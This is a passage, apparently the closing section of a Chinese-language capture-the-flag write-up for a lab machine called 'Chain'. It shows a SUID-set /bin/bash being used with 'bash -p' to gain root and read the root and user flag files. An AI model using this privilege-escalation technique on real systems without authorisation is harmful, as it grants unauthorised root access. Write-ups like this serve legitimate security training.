 ### 3.5.1 验证SUID设置

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功为 `/bin/bash` 设置了 SUID 位。

### 3.5.2 提升权限

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ bash -p
bash-5.0# id
uid=1001(fish) gid=1001(fish) euid=0(root) egid=0(root) groups=0(root),1001(fish)
```

使用 `bash -p` 保持特权模式，成功获取 root 权限。

# 四、获取Flag

```bash
bash-5.0# cat /root/root.txt /home/fish/user.txt 
flag{root-295744a86a16286a5657ebe336ba39a5}
flag{user-f307bc02d0f7e60e52d128a0c27b8e34}
```